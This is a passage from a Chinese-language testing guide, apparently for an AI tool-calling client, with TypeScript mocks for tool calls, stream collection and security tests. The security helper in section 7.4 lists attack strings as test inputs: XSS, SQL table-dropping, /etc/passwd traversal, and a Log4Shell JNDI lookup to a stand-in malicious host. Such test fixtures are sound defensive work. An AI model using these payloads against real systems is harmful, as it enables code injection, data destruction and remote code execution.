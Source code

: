 ```typescript
    }
    return Promise.resolve({ content: [{ type: 'text', text: 'Default result' }] });
  }),
  
  connect: vi.fn().mockResolvedValue(undefined)
};
```

### 7.3 流处理模拟

为测试旁观者模式和流处理创建专用模拟。

```typescript
// 模拟流式响应收集器
class MockStreamCollector {
  private chunks: string[] = [];
  
  // 收集流块
  collect(chunk: string): void {
    this.chunks.push(chunk);
  }
  
  // 获取完整内容
  getFullContent(): string {
    return this.chunks.join('');
  }
  
  // 清空收集器
  clear(): void {
    this.chunks = [];
  }
}
```

### 7.4 安全性测试模拟

```typescript
// 模拟恶意参数测试
class SecurityTestHelper {
  // 常见恶意输入模式
  static maliciousInputs = [
    '<script>alert("XSS")</script>',
    '"; DROP TABLE users; --',
    '../../../etc/passwd',
    '${jndi:ldap://malicious-site.com/exploit}',
    'function() { while(true) {} }()'
  ];
  
  // 生成包含潜在危险内容的工具调用
  static createMaliciousToolCall(toolName: string) {
    const params: Record<string, string> = {};
    
    this.maliciousInputs.forEach((input, index) => {
      params[`param${index + 1}`] = input;
    });
    
    return {
      name: toolName,
      parameters: params
    };
  }
  
  // 验证参数被安全处理（不被执行，适当转义）
  static validateSafeParameterHandling(processedParams: Record<string, any>) {
```